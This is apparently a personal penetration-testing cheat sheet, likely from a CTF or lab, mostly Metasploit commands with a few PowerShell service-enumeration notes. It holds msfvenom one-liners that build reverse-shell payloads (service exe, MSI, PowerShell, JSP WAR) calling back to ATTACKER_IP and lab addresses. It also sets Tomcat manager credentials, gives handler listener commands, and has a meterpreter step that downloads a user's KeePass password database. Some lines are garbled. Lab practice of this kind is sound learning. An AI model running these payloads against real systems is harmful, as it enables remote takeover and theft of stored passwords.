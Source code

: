 
# Metasploit
```zsh
# Metasploit
```zsh
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
$ msfvenom -l payloads
$ msfvenom -p java/jsp_shell_reverse_tcp --list-options
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war > shell.war
> set TARGETURI /manager/html
> set HttpPassword Tomcatadm
> set HttpUsername tomcat
> set LHOST 172.16.1.5
> set RHOSTS 172.16.1.11
> set RPORT 8080
# Download Module Manually
## search 50064.rb
## https://www.exploit-db.com/exploits/50064
$ cp ~/Downloads/50064.rb /usr/share/metasploit-framework/modules/my/50064.rb
$ msfconsole -m /usr/share/metasploit-framework/modules/
manual payload download
/usr/share/metasploit-framework/modules/exploits
/usr/share/metasploit-framework/modules/auxiliary
I try. only above folder can be impacted to search and use command
msf6 > reload_all
#
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.65.31 LPORT=4444 -o myservice.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.65.31 LPORT=4445 -f msi > myinstaller.msi

msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST 10.50.65.31; set LPORT 4445;exploit"
#
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.50.31.110 LPORT=443 -f psh -o shell.ps1
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.50.31.110; set LPORT 443; exploit"
#
download C:\\Users\\t1_trevor.jones\\Documents\\PasswordDatabase.kdbx /root
```


$service = Get-Service -Name FoxitReaderUpdateService | Write-Output "Executable Path : $($service.PathName)"
... no display

https://learn.microsoft.com/ja-jp/powershell/module/microsoft.powershell.management/get-service?view=powershell-7.4
PowerShell 6.0 以降では、ServiceController オブジェクトに UserName、Description、DelayedAutoStart、BinaryPathName、StartupType の各プロパティが追加されています。

$PSVersionTable.PSVersion

Get-ExecutionPolicy -List

